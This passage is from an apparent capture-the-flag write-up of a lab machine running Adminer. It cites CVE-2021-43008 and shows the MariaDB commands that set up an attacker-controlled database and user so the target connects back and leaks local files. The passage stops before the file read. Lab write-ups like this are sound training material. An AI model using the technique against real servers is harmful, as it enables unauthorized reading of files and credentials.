 ```shell
Adminer 4.3.1 - Server-Side Request Forgery      | php/webapps/43593.txt
------------------------------------------------- ---------------------------------
```
As there doesn't seem to be any vulnerabilities useful for this version, we can try accessing with the credentials gathered until now, which results in failure. Still, if we google for `Adminer 4.6.2 exploits` other than `exploitdb` ones, we find the [CVE-2021-43008](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-43008). This exploit allows an attacker to read files on the victim machine via a connection to it's own mysql server. 

## LFI via adminer read
We can try to exploit this vulnerability by setting a `admirerdb` database on our machine:
```shell
❯ sudo mysql -u root
MariaDB [(none)]> create database pwnd;
Query OK, 1 row affected (0.000 sec)
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| pwnd               |
| sys                |
| test               |
+--------------------+
6 rows in set (0.001 sec)
MariaDB [(none)]> use pwnd
Database changed
MariaDB [pwnd]> create user 'revan'@'10.10.10.187' identified by '1234';
Query OK, 0 rows affected (0.001 sec)

MariaDB [pwnd]> grant all on pwnd.* to 'revan'@'10.10.10.187';
Query OK, 0 rows affected (0.001 sec)

MariaDB [pwnd]> grant all on honeypot.* to 'revan'@'10.10.10.187';
Query OK, 0 rows affected (0.100 sec)
```
Up to this point we created a new database and a user with all the privileges on it:`'revan'@'10.10.10.187':1234`. Now, we can connect to the database with:
![](img/2022-06-28_00-28.png)
